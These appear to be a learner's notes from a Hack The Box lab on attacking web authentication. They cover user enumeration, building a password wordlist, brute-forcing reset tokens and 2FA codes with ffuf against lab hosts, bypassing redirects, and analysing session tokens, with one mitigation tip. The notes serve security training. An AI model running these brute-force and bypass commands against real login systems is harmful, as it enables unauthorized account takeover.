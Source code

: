 
![[Pasted image 20240611220719.png]]

### Common Authentication Methods

- Knowledge-based authentication
- Ownership-based authentication
- Inherence-based authentication


| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

# Bruteforce Attacks

## Enumerating Users

- responds differently to registered/valid and invalid inputs for authentication endpoints

![[Pasted image 20240611221602.png]]

![[Pasted image 20240611221611.png]]


- Enumerate usernames using ffuf

```shell
ffuf -w /opt/seclists/Usernames/xato-net-10-million-usernames.txt -u http:// 94.237.49.32:36757/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=admin" -fr "Unknown username"
```


### User Enumeration via Side-Channel Attacks

- the response timing, i.e., the time it takes for the web application's response to reach us
	- eg, if it checks for the userdb only for valid db rhen response time varies

### Brute-Forcing Passwords

- after finding username fuzz the password with the valid username
- filter the wordlist with password policies

```shell
grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

```


```shell
ffuf -w ./custom_wordlist.txt -u http://94.237.49.178:49729/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```



### Brute-Forcing Password Reset Tokens


![[Pasted image 20240611233705.png]]


-  need to create an account on the target web application, request a password reset token, and then analyze it.


**Example:**

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```



- here a get request with parameter as toke is got so we can fuzz the token by generation numbers
- generate tokens


```shell
seq -w 0 9999 > tokens.txt
```




## Brute-Forcing 2FA Codes


![[Pasted image 20240612002024.png]]

![[Pasted image 20240612002032.png]]


```shell
pradyun2005@htb[/htb]$ seq -w 0 9999 > tokens.txt
```


```shell
pradyun2005@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

- after successfull auth every hit will be successfull



## Authentication Bypass via Direct Access


#### Direct Access

- find where after succesful login redirects to /admin.php
- access /admin.php directly without login page
- Does it redirect to index.php => modify response of http request 
- `302 FOUND to 200 OK` In response that redirecting

Why this happens ??

```php
if(!$_SESSION['active']) {
	header("Location: index.php");
}
```

include exit after header to mitigate
```php
	exit;
```


# Authentication Bypass via Parameter Modification

- check weather parameter is involved in authentication , how??
- remove/change the parameter value and check the functionality ,redirects to /index.php => parameter invloved in authentication
- brute the value to get higher priv
- idor

# Attacking Session Tokens

- collect different session tokes and analyze

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

- only characters are changed easy to brute

- incremented session id

- base64,hex,url encoded session



